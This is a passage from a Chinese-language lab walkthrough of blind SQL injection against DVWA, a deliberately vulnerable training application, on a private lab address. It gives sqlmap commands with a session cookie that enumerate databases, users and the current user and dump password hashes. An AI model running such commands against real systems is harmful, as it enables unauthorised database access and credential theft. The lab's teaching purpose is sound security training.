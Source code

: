 ```
sqlmap -u "192.168.224.135/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=ldopum46srn0q78qsnpkhnbgt4"
or
sqlmap -u "192.168.224.135/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=ldopum46srn0q78qsnpkhnbgt4" --batch
```

![4](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/DVWA-%E7%9B%B2%E6%B3%A8/20220525124653.png)



发现此为get型、id注入点为布尔)型盲注，并扫出了版本号

**查询所有数据库**

```
sqlmap -u "192.168.224.135/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=ldopum46srn0q78qsnpkhnbgt4" --batch --dbs
```

![5](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/DVWA-%E7%9B%B2%E6%B3%A8/20220525124655.png)



**查询当前数据库**

```
 sqlmap -u "192.168.224.135/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=ldopum46srn0q78qsnpkhnbgt4" --batch --current-db
```



![6](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/DVWA-%E7%9B%B2%E6%B3%A8/20220525124657.png)

**列出数据库中的所有用户**

```
sqlmap -u "192.168.224.135/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=ldopum46srn0q78qsnpkhnbgt4" --batch --users
```



![7](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/DVWA-%E7%9B%B2%E6%B3%A8/20220525124659.png)



**获取Web应用当前所操作的用户**

```
sqlmap -u "192.168.224.135/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=ldopum46srn0q78qsnpkhnbgt4" --batch --current-user
```

![8](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/DVWA-%E7%9B%B2%E6%B3%A8/20220525124702.png)

**列出可连接数据库的所有账户-对应的密码哈希**

```
sqlmap -u "192.168.224.135/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=ldopum46srn0q78qsnpkhnbgt4" --batch --passwords
```
